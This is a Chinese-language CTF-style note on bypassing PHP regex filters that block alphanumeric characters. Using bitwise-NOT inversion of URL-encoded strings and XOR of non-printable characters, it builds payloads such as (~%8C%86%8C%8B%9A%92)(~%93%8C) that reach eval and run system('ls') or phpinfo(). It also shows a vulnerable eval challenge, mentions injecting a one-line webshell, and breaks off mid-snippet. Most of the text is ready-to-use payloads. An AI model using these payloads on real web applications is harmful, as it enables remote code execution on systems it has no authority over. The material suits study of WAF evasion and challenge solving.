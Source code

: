 <https://www.cnblogs.com/Dreamerwd/p/15421284.html>

对于字符，字母，数字大小写都waf的，使用不可打印字符绕过。
```
preg_match('/^\W+$/', $v3)
等价
preg_match("[^A-Za-z0-9_]",$code)
没有过滤% ^ ~ - & | （" 等
```


## **url编码取反**
们将php代码url编码后取反，我们传入参数后服务端进行url解码，这时由于有取反，url解码成不可打印字符，这样我们就会绕过。
```
echo "\n".urlencode(~'phpinfo');  //%8F%97%8F%96%91%99%90

url解码后会变成不可打印字符乱码，绕过正则，在~取反回来

?code=(~%8F%97%8F%96%91%99%90)();
?code=phpinfo();
```
```
<?php
echo urlencode(~'system');
echo "\n".urlencode(~'ls');
?>

eval("return $v1$v3$v2;");

?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%93%8C)-
php里数字可以和命令可以进行运算。如* - + |等
eval("1-(system)(ls)-1") 执行命令

```

## **异或绕过**
<https://blog.csdn.net/soldi_er/article/details/120052124>
<https://blog.csdn.net/weixin_40871137/article/details/107591065>
<https://blog.csdn.net/mochu7777777/article/details/104631142>
将两个字符的asci转化为二进制进行异或取值从而得到新的二进制转化为新的字符
```
phpinfo
使用异或工具
"%80%80%80%80%80%80%80"^"%f0%e8%f0%e9%ee%e6%ef"

?code=(%22%80%80%80%80%80%80%80%22^%22%f0%e8%f0%e9%ee%e6%ef%22)();
?code=phpinfo();
```

## **CTF题**
```
$code=$_GET['code'];
        if(strlen($code)>40){
                            die("This is too Long.");
                                    }
        if(preg_match("/[A-Za-z0-9]+/",$code)){
                            die("NO.");
                                    }
        @eval($code);
```
传入一句话木马
```
<?php 
error_reporting(0);
echo "外：";
```